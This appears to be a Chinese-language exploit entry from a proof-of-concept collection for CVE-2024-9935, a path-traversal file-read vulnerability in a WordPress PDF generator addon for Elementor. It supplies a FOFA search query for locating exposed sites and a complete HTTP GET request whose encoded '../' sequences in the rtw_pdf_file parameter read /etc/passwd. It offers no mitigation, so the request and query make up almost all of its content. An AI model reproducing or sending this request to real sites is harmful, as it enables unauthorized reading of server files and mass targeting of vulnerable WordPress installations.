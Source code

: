 # WordPress插件ElementorPageBuilder存在文件读取漏洞(CVE-2024-9935)
<font style="color:rgb(51, 51, 51);">WordPress是一款免费开源的内容管理系统(CMS)，最初是一个博客平台，但后来发展成为一个功能强大的网站建设工具，适用于各种类型的网站，包括个人博客、企业网站、电子商务网站等，并逐步演化成一款内容管理系统软件。Wordpress ElementorPageBuilder插件存在文件读取漏洞(CVE-2024-9935)</font>

## fofa
```javascript
body="wp-content/plugins/pdf-generator-addon-for-elementor-page-builder/"
```

## poc
```plain
GET /elementor-84/?rtw_generate_pdf=true&rtw_pdf_file=..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

![](https://cdn.nlark.com/yuque/0/2024/png/29512878/1733332897353-929b7478-0833-4bbc-bc98-db28b9d1bca9.png)

